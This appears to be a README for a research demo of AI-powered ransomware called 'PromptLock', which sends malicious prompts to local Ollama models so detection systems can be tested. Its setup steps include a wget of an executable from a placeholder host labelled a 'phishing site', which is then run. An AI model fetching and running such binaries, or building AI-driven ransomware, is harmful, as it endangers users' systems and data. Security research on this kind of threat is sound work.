 # PromptLock AI-Powered Ransomware Demo

## 🎯 **Complete Demo Setup with AI Integration**

This enhanced demo safely demonstrates **actual AI model communication** for security research purposes. It transmits malicious prompts to local AI systems for detection testing **without generating harmful content**.

> **🛡️ ETHICAL USE ONLY:** This demo is designed for security research and detection policy development. The prompts are transmitted with clear security research headers and prefixed with safety disclaimers to prevent actual harmful generation while still allowing detection systems to identify the malicious patterns.

## 🚀 **Demo Features:**

### **✅ Realistic AI Integration:**
- **HTTP requests** to local Ollama AI models
- **Real-time verification** of prompt transmission
- **Network traffic monitoring** capabilities
- **Detailed logging** of all AI interactions

### **✅ Enhanced Verification:**
- **Request/Response tracking** with timestamps
- **Payload size monitoring** for network analysis
- **Error handling** for offline AI models
- **Full HTTP request details** displayed

## 🛠️ **Setup Instructions:**

### **1. Install Ollama (Required for AI Demo):**
```bash
# Install Ollama
curl -fsSL https://ollama.ai/install.sh | sh

# Stop Ollama service if running automatically
brew services stop ollama

# Start Ollama manually (to see logs)
ollama serve

# Install a small, fast model (in separate terminal)
ollama pull llama3.2:1b
```

### **2. Download and Run Demo:**
```bash
# Download from phishing site
wget https://your-vercel-site.vercel.app/promptlock.exe

# Make executable
chmod +x promptlock.exe

# For Windows
promptlock.exe

# For macOS/Linux (requires Wine)
wine promptlock.exe
```
